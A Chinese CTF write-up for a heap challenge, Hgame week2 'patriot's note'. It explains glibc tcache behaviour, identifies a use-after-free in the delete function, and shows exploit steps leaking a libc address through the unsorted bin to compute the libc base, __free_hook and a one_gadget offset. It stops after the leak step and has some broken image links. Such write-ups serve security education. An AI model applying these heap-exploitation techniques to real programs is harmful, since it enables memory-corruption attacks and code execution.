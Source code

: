 并且类似于fastbins，是一个单链表。**在释放大小为0x0-0x400大小的堆的时候，首先会被释放入对应长度tcachebins对应的链表中，**当长度超出7后，再放入fastbin或unsortbins中。malloc的时候当发现malloc对应大小的堆，先从tcachebins中取出。注意当如果从fastbin中取出了一个块，那么会把剩余的块放入tcache中直至填满tcache（smallbin中也是一样）。如果进入了unsortedbin，且chunk的size和当前申请的大小精确匹配，那么在tcache未满的情况下会将其放入到tcachebin中

## Hgame week2 patriot's note WP

ida里面查看

delete函数

![image-20210224131203707](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20210224131203707.png)

可以看到delete函数中，内存块被释放后，其对应的指针没有被设置为 NULL ，存在 ues after free 漏洞。

show函数

![image-20210224131128488](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20210224131128488.png)



由于知识有限，这里直接按照官方exp补充分析并提出问题* — * 

第一步，分配一个超大的堆（free 后去往 unsorted bin） 

```python
take(0x500)
```

*这里让他之后到 unsorted bin 里面应该是为了后续  free 进 tcachebin 里面吧*

*tcache是libc2.26之后引进的一种新机制，类似于fastbin一样的东西，每条链上最多可以有 7 个 chunk，free的时候当tcache满了才放入fastbin，unsorted bin，malloc的时候优先去tcache找。*

Q:按这样说的话，为啥free之后没有进入tcache里面？

第二步，随便分配一个堆防止free上一步堆的时候与后面的合并

```python
take(0x40)
```

*因为free函数在释放堆块时，会通过隐式链表判断相邻前、后堆块是否为空闲堆块；如果堆块为空闲就会进行合并*

第三步，free 第一步的堆

```python
delate(0)
```

```python
#gdb
unsortedbin
all:0x563fd3e98670 -> 0x7f3fc8870ca0 (main_arena+96) <- 0x
```

第四步，用show函数打印出 main_arena+96 的地址，知道libc版本，本地看偏移，从而算出libc的基地址以及free_hook地址

```python
show(0)
libc_addr = u64(r.recvuntil('\x7f')[1:].ljust(8,'\x00')) + 0x7f2b766ab000 -0x7f2b76a96ca0
print 'libc_addr',hex(libc_addr)
one = libc_addr + 0x4f432
print 'one',hex(one)
free_hook = libc_addr + libc.symbols['__free_hook']
print 'free_hook',hex(free_hook)

```
